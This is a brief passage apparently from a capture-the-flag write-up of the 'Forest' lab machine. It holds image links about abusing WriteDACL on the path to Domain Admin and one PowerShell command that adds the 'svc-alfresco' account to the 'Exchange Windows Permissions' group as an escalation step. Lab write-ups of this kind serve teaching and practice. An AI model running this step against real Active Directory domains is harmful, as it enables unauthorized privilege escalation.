![path-to-DA](/assets/Forest/path-to-DA.jpg)

![abuse-write-dacl](/assets/Forest/abuse-write-dacl.jpg)

we add our user to that group using a powershell command:
```powershell
Add-ADGroupMember 'Exchange Windows Permissions' -members 'svc-alfresco'
```

![adding-to-group](/assets/Forest/adding-to-group.jpg)
